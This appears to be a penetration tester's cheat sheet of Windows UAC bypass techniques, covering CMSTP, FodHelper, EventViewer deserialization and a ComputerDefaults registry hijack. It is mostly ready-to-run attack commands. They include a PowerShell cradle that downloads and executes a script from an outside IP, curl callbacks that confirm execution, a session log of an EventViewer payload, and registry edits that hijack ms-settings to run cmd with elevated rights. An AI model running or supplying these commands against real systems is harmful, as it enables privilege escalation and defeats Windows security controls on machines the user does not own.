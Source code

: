## CMSTP

Source: https://github.com/expl0itabl3/uac-bypass-cmstp.<br>
- Invoke: `iex(iwr http://192.168.45.195/cmstp.ps1 -useb)`
- Execute: `Bypass-UAC -Command "curl http://192.168.45.223/worked"`

## FodHelper

- uses CurVer to abuse UAC, should bypass Windows Defender (?)

## EventViewer
- RCE through Unsafe .Net Deserialization in Windows Event Viewer which leads to UAC bypass.

```powershell
    PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1
    
    PS C:\Windows\Tasks> Invoke-EventViewer 
    [-] Usage: Invoke-EventViewer commandhere
    Example: Invoke-EventViewer cmd.exe
    
    PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
    [+] Running
    [1] Crafting Payload
    [2] Writing Payload
    [+] EventViewer Folder exists
    [3] Finally, invoking eventvwr
```

## Manual Approach - ComputerDefaults
```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "C:\Windows\System32\cmd.exe /c curl http://192.168.50.149/worked" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```
